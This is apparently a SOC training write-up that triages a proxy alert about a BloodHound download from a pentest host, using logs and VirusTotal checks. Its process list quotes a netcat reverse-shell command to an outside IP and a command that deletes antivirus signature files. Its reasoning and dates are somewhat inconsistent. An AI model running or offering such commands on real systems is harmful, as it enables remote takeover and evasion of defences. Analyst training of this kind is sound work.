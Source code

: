 # SOC119 - Proxy - Malicious Executable File Detected

We recieved a Medium alert for a malicious executable file detection. 

**EventID:** 79
**Event Time:** Mar, 15, 2021, 09:30 PM
**Rule:** SOC119 - Proxy - Malicious Executable File Detected
**Level:** Security Analyst
**Source Address:** 172.16.20.5
**Source Hostname:** PentestMachine
**Destination Address:** 140.82.121.4
**Destination Hostname:** github.com
**Username:** kali
**Request URL:** https://github.com/BloodHoundAD/BloodHound/releases
**User Agent:** Penetration Test - Do not Contain
**Device Action:** Allowed

## Analysis
We're going to give into the source address some to see if the destination host was contacted. 

![Screenshot 2023-02-17 at 8 24 32 AM](https://user-images.githubusercontent.com/74877876/219664377-e6dda9c2-31cf-4c78-b25b-9b3f0bb67241.png)

We can see it was on March 15, 2021 at 9:30pm which is the time and date of the alert. Let's look at the connection details.

![Screenshot 2023-02-17 at 8 25 55 AM](https://user-images.githubusercontent.com/74877876/219664676-1ed2ccb0-c2ae-45f4-8a44-58a9b2e63f8d.png)

https://github.com/BloodHoundAD/BloodHound/releases was accessed it looks like. 

We're going to look more at the source machine, any details we can find on that file or March 15, 2021. Looks like the source address, 172.16.20.5, is in fact the source hostname, PentestMachine.

No browser log. 

Command log: 13.06.2021 16:23 nmap -sV -sP 172.16.20.0/24

Network connections:
- 13.06.2021 16:23:01 - 172.16.20.1
- 13.06.2021 16:23:06 - 172.16.20.2
- 13.06.2021 16:23:13 - 172.16.20.3
- 13.06.2021 16:23:15 - 172.16.20.4
- 13.06.2021 16:23:19 - 172.16.20.6

The only processes that appear to be suspicious doesn't have a date. 
- nc 101.32.223.119 1234 -e /bin/sh - transfers the bash code to detected malicious Hong Kong domain using netcat.
- rm -f /var/lib/clamav-unofficial-sigs/pid/clamav-unofficial-sigs.pid - looks like Linux AV and it's signatures were removed. 
- A SQL database was accessed.

![Screenshot 2023-02-17 at 9 19 59 AM](https://user-images.githubusercontent.com/74877876/219680134-b389f0b0-a18e-4d99-8e36-c26cba644f3a.png)

The host machine is an Ubuntu machine so we know it's not an executable file that was accessed, but we're going to continue to analyze the file. 

**VirusTotal:** 
- Looking at https://github.com/BloodHoundAD/BloodHound/releases doesn't show any malicious detections. 
- Looking at 140.82.121.4 doesn't show any detections but shows the address is based in Denmark and connected to GitHub.
- While there lots of files 140.82.121.4 communicated with BloodHound's GitHub doesn't appear to be one of them. 
- The destination address doesn't show any relationships to BloodHound's GitHub. 

Since I'm familiar with GitHub, I looked up BloodHound's GitHub and was able to find the releases page. The URL does match the requested URL.

Let's look at BloodHound's GitHub is about.

![Screenshot 2023-02-17 at 9 11 28 AM](https://user-images.githubusercontent.com/74877876/219678260-90aba689-2db1-4569-b967-5dcf1ef96a08.png)

It definitely seems like their content is for pentesting. 

## Determination
Determining to be true positive since the file was accessed according to the logs. The file and the logs are suspicious based on the processes performed but looking into the intent of BloodHound's GitHub, the file was used for pentesting.  

While suspicious, not malicious. 

## Helpful Link
- GitHub: https://github.com/BloodHoundAD/BloodHound
- VirusTotal: https://www.virustotal.com/gui/home/upload 
